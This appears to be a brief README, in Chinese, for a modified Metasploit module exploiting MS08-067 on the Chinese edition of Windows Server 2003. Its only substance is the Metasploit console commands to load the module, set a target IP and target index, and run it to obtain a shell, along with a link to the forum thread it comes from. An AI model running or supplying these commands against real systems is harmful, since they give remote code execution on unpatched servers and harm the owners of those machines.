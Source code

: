 ms08-067_Server_2003_Chinese_Version

## 使用方法 ##
覆盖文件（在`/usr/share`下）
```
use exploit/windows/smb/ms08-067_netapi
set RHOST 192.168.1.11
set Target 65
run
```
即可得到shell
来源[戳我](http://bbs.pediy.com/thread-186737.htm)
